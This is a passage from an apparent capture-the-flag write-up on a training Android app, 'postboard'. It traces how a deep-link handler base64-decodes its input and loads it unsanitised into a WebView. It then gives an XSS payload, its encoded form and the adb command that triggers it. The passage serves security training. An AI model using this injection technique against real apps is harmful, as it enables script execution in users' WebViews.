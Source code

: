 The `handleIntent()` gets an intent checks if the action is `android.intent.action.VIEW`, the intent data is not equal to `null`, the data scheme is `postboard://` and the intent data host is `postmessage`. It then takes the path , base64 decodes it and replaces `'` with `\\` to get the message. The message is then loaded in the webview as follows `activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");`. Now based on that we can try to display any content in the webviev using `adb`. Let's try and inject some javascript code and see if it works.

Html code

```shell
<img src=x onerror=alert(document.location.href)>
```

Base64 encoded string

```shell
PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KGRvY3VtZW50LmxvY2F0aW9uLmhyZWYpPg==
```

adb command

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb shell am start -n "com.mobilehackinglab.postboard/.MainActivity" -a "android.intent.action.VIEW" -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KGRvY3VtZW50LmxvY2F0aW9uLmhyZWYpPg=="
Starting: Intent { act=android.intent.action.VIEW dat=postboard://postmessage/... cmp=com.mobilehackinglab.postboard/.MainActivity }
```

Running the command we were able to inject javascript.

![img-description](1.png)
